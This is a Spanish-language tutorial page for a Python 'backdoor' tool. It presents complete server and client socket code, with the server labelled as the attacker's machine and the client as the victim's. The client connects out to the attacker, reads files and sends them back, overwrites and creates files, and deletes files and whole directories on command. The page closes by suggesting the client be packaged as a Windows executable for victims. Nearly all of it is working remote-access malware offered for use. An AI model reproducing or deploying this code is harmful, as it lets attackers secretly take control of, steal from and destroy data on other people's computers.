 ```yaml
---
layout: default
---
```


# easy-backdoor-python

Esta es una herramienta muy sencilla que puede servir como backdoor usando sockets en python.

[Link a la herramienta en Github.](https://github.com/dTowersss/easy-python-backdoor)

## Cómo funciona el backdoor 

### El servidor

Primero de todo se importan las librerías que harán falta para el programa y luego se declaran las dos variables principales. La variable `IP` en la que deberás meter la ip de la máquina servidor/atacante y la variable `PORT` donde deberás meter el puerto por el que quieras que se conecte la víctima.  

```python
import socket
import threading
import sys
import os
IP = "Your IP"
PORT = 9112
```
Después se declara la función main donde crearemos un socket con `socket.socket(socket.AF_INET, socket.SOCK_STREAM)` y nos quedaremos escuchando hasta que haya una conexión.

```python 
def main(): 
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.bind((IP, PORT))
    server.listen(5)
    print(f'[*]Esperando por conexiones en {IP}:{PORT}')
```
Ahora dentro de la misma función hacemos un bucle que se repetirá hasta el infinito donde aceptaremos la conexión con `client, address = server.accept()` , es necesario poner `client` y poner `adress` o podría dar fallos.
Después iniciamos un hilo con un párametro que apunta a otra función que se ejecutará a la vez que la principal.

```python
client_handler = threading.Thread(target=handle_client, args=(client,))
client_handler.start()
```
Definimos la función a la que dirigirá los comandos que mandamos.
```python
def handle_client(client_socket):
    with client_socket as sock:
```
Y creamos otro bucle infinito. Aquí también he definido otra pequeña función para limpiar la pantalla. Además añadimos un input que recogerá el comando que queramos mandar.

```python
while True:
            def borrarPantalla():
                os.system ("clear")
	    comando = input("$->  ")
```
Ahora hay que determinar todos los comandos que se van a poder mandar al cliente.

En los dos primeros se establece una condición de que si se envia `exit` o `help` se cierre la aplicación o aparezca el menú de ayuda respectivamente.

```python
if comando == "exit":
                print("[*]Conexión Cerrada")
                command = comando.encode()
                sock.send(command)
                sys.exit(1)
elif comando == "help":
                print("Comandos a usar: pwd, cls, read, mkdir, rd, rm, write, touch, sys, cd, ls, cd.., exit.")
```
Luego le digo al programa si el comado esta vacío le envíe al cliente el string `empty` y si el comando es `cls` que se limpie la pantalla.

```python
elif comando == "":
   	command = comando + 'empty'
   	command1 = command.encode()
   	sock.send(command1)
   	request = sock.recv(4096)
   	print(request.decode("utf-8"))
elif comando == "cls":
   	borrarPantalla()
```
Después se declaran dos condiciones las cuales determinan los comandos `write` y `touch` los cuales reescriben un archivo o crean uno nuevo respectivamente y le añaden texto dentro.

```python
elif comando[:5] == "write":
                command = comando.encode()
                sock.send(command)
                archivo = input("Que deseas poner en el archivo: ")
                archivos =  archivo.encode()
                sock.send(archivos)
                request = sock.recv(4096)
                print(request.decode("utf-8"))
            
elif comando[:5] == "touch":
                command = comando.encode()
                sock.send(command)
                archivo = input("Que deseas poner en el archivo: ")
                archivos =  archivo.encode()
                sock.send(archivos)
                request = sock.recv(4096)
                print(request.decode("utf-8"))
```
Y por último si no se introduce ningún comando de los anteriores se envía al cliente para que este lo rechaze. Y además se inicia la función `main()`

```python
else:
     command = comando.encode()
     sock.send(command)
     request = sock.recv(4096)
     print(request.decode("utf-8")) 

if __name__ == "__main__":
    main()
```
### El cliente

Al igual que en el servidor se importan las librerías oportunas y se declaran las dos variables `ip` y `port` las cuales tienen que ser iguales que las del servidor.

``` python
import socket
import os 
import sys
import shutil

ip = "Your IP"
port = 9112
```
Después se crear la conexión al servidor el cuál tiene que estar escuchando antes de ejecutar el cliente.

```python 
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((ip, port))
```
Ahora se crea un bucle infinito y se declara una variable que recibirá los comandos del servidor.

```python
while True:
    response = client.recv(4096)
```
Hecho esto se declaran todos los comandos que pueden llegar y se consigue la información del cliente a través de sentencias de las distintas líbrerias anteriormente importadas. Y luego se envian los datos de vuelta a servidor.

```python
if response.decode() == "pwd":
        ruta = os.getcwd()
        path = ruta.encode()
        client.send(path)

elif response.decode() == "sys":
        sistem = sys.platform
        sistema = sistem.encode()
        client.send(sistema)

elif response.decode() == "ls":
        ls = os.listdir(os.getcwd())
        lis = str(ls)
        listar = bytes(lis, "utf-8")
        client.send(listar)

elif response.decode() == "cd ..":
        os.chdir("../")
        ls = os.listdir(os.getcwd())
        lis = str(ls)
        listar = bytes(lis, "utf-8")
        client.send(listar)
    
elif response.decode()[:2] == "cd":
        os.chdir(response.decode()[3:])
        result = os.getcwd()
        path = result.encode()
        client.send(path)

elif response.decode()[:5] == "mkdir":
        os.mkdir(response.decode()[6:])
        ls = os.listdir(os.getcwd())
        lis = str(ls)
        listar = bytes(lis, "utf-8")
        client.send(listar)

elif response.decode()[:2] == "rm":
        os.remove(response.decode()[3:])
        ls = os.listdir(os.getcwd())
        lis = str(ls)
        listar = bytes(lis, "utf-8")
        client.send(listar)
    
elif response.decode()[:2] == "rd":
        shutil.rmtree(response.decode()[3:])
        ls = os.listdir(os.getcwd())
        lis = str(ls)
        listar = bytes(lis, "utf-8")
        client.send(listar)
        
elif response.decode()[:5] == "write":
        f = open (response.decode()[6:],'w')
        response = client.recv(4096)
        f.write(response.decode())
        f.close()
        client.send(bytes("Archivo reescrito", "utf-8"))

 elif response.decode()[:5] == "touch":
        f = open (response.decode()[6:],'w')
        response = client.recv(4096)
        f.write(response.decode())
        f.close()
        client.send(bytes("Archivo creado y escrito\n", "utf-8"))
        ls = os.listdir(os.getcwd())
        lis = str(ls)
        listar = bytes(lis, "utf-8")
        client.send(listar)

 elif response.decode()[:4] == "read":
        f = open(response.decode()[5:])
        file = f.read()
        files = bytes(file, "utf-8")
        client.send(files)
```
En algunos casos es necesario convertir objetos a strings y luego esos strings a bytes para poder enviarlos.

Y por último se declaran las últimas condiciones que cubren las situaciones en las que el comando sea un exit que este vacío o que este mal escrito.

```python
 elif response.decode() == "exit":
        sys.exit(1)
    
 elif response.decode() == "empty":
        client.send(bytes('No has elegido ningún comando', "utf-8"))
    
 else:
        client.send(bytes('El comando está mal escrito', "utf-8"))
```
Y esto sería todo el funcionamiento del backdoor en python. Si se quisiera usar en un Windows sin python instalado se podría convertir el client.py en un ejecutable con herramientas como [auto-py-to-exe.](https://github.com/brentvollebregt/auto-py-to-exe)


```

